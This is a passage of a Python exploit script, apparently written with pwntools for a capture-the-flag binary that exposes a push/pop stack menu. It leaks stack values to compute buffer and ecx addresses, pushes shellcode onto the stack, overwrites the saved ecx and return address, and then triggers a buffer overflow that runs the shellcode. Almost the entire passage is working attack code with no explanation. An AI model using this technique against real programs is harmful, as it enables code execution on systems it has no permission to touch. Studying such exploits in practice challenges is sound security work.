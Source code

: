 ```python
	if now == 3:
		payload.append(numpy.int32(cur))	
		cur = 0

def pop(r):
	r.sendline("2")
	r.recvuntil("Top item is: ")
	item = r.recvuntil("\n").strip()
	n = numpy.int32(int(item, 16))
	return n

def push(r, num):
	r.sendline("1")
	r.recvuntil("number:\n")
	r.sendline(str(num))

if __name__ == "__main__":

	temp = []

	# leaking ebp
	for i in xrange(4):
		r.recvuntil("4. exit\n")
		temp.append(pop(r))
	
	# calculate buffer address & address for ecx
	buf_addr = numpy.int32(temp[3] - 0x60)
	ecx_addr = numpy.int32(temp[3] + 0x18)
	log.info("buffer address: "+hex(buf_addr&0xffffffff))
	log.info("ecx address: "+hex(ecx_addr&0xffffffff))

	# restore stack
	for c in reversed(temp):
		r.recvuntil("4. exit\n")
		push(r, c)

	# shellcode
	for c in payload:
		r.recvuntil("4. exit\n")
		push(r, c)

	# padding
	for i in xrange(8, 23):
		r.recvuntil("4. exit\n")
		push(r, 1)

	# important address for ecx
	r.recvuntil("4. exit\n")
	push(r, ecx_addr)

	# padding
	for i in xrange(24, 29):
		r.recvuntil("4. exit\n")
		push(r, 1)

	# return address
	r.recvuntil("4. exit\n")
	push(r, buf_addr)

	# invoke BOF
	r.recvuntil("4. exit\n")
	r.sendline("4")

```